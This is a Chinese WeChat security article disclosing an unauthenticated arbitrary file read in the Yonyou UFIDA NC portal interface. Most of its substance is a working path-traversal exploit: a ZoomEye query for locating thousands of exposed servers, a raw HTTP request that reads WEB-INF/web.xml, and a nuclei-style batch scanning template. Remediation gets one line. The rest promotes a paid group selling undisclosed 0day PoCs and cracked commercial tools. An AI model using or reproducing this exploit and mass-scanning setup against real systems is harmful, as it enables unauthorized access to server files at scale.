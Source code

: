 #  用友portal接口存在任意文件读取漏洞(新)-漏洞挖掘   
原创 漏洞挖掘  渗透安全HackTwo   2024-01-22 00:02  
  
###   
#   
0x01 产品简介  
     
   ufida用友财务软件nc好会计，畅捷通旗下集成财务管理必备利器 畅捷通是用友集团的成员企业,致力于为企业提供专业高效的财务管理解决方案。这里  
我推荐利用**ZoomEye**搜索引擎发现影响资产6000+  
。  
  
**声明******  
  
> 请自行搭建环境进行漏洞测试，该公众号或作者星球分享的工具、项目、漏洞仅供安全研究与学习之用请勿用于非法行为，如用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
  
  
**TIPS:**  
**末尾领取资料及福利-批量检测脚本在末尾**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4UYxZdicvoUdltgFmEwEcvw0YuB9JuGe5ibURTYz6libF2KKnUFYt8hmjpt2YXAqLj7n96VuLk3l6YQ/640?wx_fmt=png&from=appmsg "")  
  
  
0x02 漏洞描述        用友移动系统管理portal接口存在任意文件读取，攻击者可在无需登录的情况下进行任意文件读取。0x03 ZoomEye语法app:"用友 UFIDA NC"0x04 漏洞复现POCGET /portal/file?cmd=getFileLocal&fileid=..%2F..%2F..%2F..%2Fwebapps/nc_web/WEB-INF/web.xml HTTP/1.1Host: {}Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: JSESSIONID=B9F1AC8D34E9DFD16A3A7A4B9CEE4EF9.serverConnection: close批量检测POC（请自行搭建环境检测）id: yonyou-ufida-nc-filereadinfo:  name: yonyou-ufida-nc-fileread  author: HackTwo  severity: high  description: |    漏洞测试-Test  reference:    - https://  tags: autohttp:  - raw:      - |+        GET /portal/file?cmd=getFileLocal&fileid=../../../../webapps/nc_web/WEB-INF/web.xml HTTP/1.1        Host: {{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8        Accept-Language: zh-CN,zh;q=0.9        Cache-Control: no-cache        Connection: close    matchers:      - type: dsl        dsl:          - "contains_all(body, 'version=') && status_code==200 && contains(header,'attachment; filename')"0x05 修复建议升级至最新版本，官方已经推出新的版本补丁包。0x06 内部福利介绍-又更新啦！近期更新的0day/1day(包含公开和未公开漏洞-仅列举部分)漏洞整理更新至500+需要的加入星球获取一些漏洞报告200+(仅列举部分)加入星球获取更多资源及视频资源持续更新中！        需要加入内部知识星球可点击下方链接，资源包含但不限于网上未公开的day漏洞（更新漏洞POC共500+），2024最新企业SRC/CNVD/Edu实战挖掘技巧报告，红队内网横向渗透，代码审计，JS逆向，SRC培训等课程。圈子对新人友好，加入圈子拥有FOFA shadan 360Quake ZoomEye Tide 零零信安Hunter等等高级会员账号，SRC文档，武器库。圈子里面资料价值至少在10K以上，目前星球内部主题300+，资源2000+，其他和网盘资源1w+并持续更新中，越早加入价格越低。(详情点击下方地址了解-->>还是觉得价格贵的师傅后台回复" 星球 "有优惠券使用名额有限先到先得)点击了解-->>内部VIP知识星球福利介绍V1.2版本-元旦优惠  
  
****  
**结尾**  
  
# 免责声明  
  
  
# 获取方法  
  
  
****  
回复“**app**" 获取  app渗透和app抓包教程  
  
回复“**渗透字典**" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“**书籍**" 获取 网络安全相关经典书籍电子版pdf  
  
压缩包解压密码：HackTwo  
  
  
  
# 免责声明  
  
  
        
文章中的案例或工具仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，勿用于非法行为。如  
用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用。  
如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。  
本工具或文章或来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
**1. 内部VIP知识星球福利介绍V1.2版本-元旦优惠**  
  
**2. 最新BurpSuite2023.12.1专业版中英文版下载**  
  
**3. 最新Nessus2024下载Windows/Linux**  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.4.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  
  
  
###### 渗透安全HackTwo  
  
  
微信号：关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
喜欢的朋友可以点赞转发支持一下  
  
  
